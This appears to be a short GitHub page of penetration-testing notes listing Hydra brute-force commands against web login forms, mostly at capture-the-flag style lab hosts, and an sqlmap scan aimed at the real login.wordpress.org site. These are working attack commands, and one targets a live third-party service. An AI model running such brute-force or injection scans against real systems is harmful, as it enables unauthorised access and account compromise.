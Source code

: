 # Active-Sanning
This is a list of tools that will help with attack but may show alerts on IDS as you are sending many requests.

## Brute Force 
May result in IP ban if too many requests are made.
### Hydra
Used to brute force users on websites
```bash
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.118.169 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Username or passwordis incorrect" -t 35
hydra -L "users.txt" -P "/usr/share/wordlists/rockyou.txt" api-prod.horizontall.htb http-post-form "/admin/auth/login:{\"identifier\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:404" -t 50
```

## SQL
### SQLmap
```bash
	sqlmap -u https://login.wordpress.org --forms
```
